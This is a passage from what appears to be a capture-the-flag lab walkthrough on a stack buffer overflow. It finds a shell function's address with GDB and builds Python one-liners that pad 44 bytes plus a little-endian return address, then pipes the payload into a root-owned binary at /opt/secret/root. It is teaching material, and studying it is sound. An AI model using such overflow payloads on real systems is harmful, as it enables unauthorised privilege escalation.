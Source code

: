 Previously we figured out that we need to provide 44 characters of input, and then we can execute whatever part of the program we want. Now the next step is to find out exactly where the shell function is in memory so we know what to set EIP to. GDB supports this as well with the disassemble command. Type disassemble shell, and this should pop up.

![](https://imgur.com/Al8tCRy.jpg)

```
disassemble shell
```
![[Pasted image 20240328214910.png]]

What we're interested in is the hex memory addresses. So from what we know all we have to do is provide 44 characters, and then "0x080484cb" and the shell function should execute, let's try it!

Note: Modern CPU architectures are "little endian" meaning bytes are backwards. For example "0x080484cb" would become "cb840408"

We can use python to do this, as it allows a nice way of converting.

Method 1 - Manual conversion:  

```
python -c 'print "A"*44 + "\xcb\x84\x04\x08"'
``` 
![[Pasted image 20240328222204.png]]

will output the payload we want, but it requires manually converting to little endian

Method 2 - Struct:  

```
python -c 'import struct;print "A"*44 + struct.pack("<I",0x080484cb)'
```
![[Pasted image 20240328222248.png]]

It requires importing a module but struct.pack allows us to automatically convert memory to little endian.

We print 44 random characters(in this case A) and then our memory address in little endian, and shell should execute. This can be tested by piping the output in to the binary  

```
python -c 'print "A"*44 + "\xcb\x84\x04\x08"' | /opt/secret/root
```
should provide you with this output.

![](https://imgur.com/ioTkGbB.jpg)

![[Pasted image 20240328222355.png]]


We did it!  

Answer the questions below

Woohoo!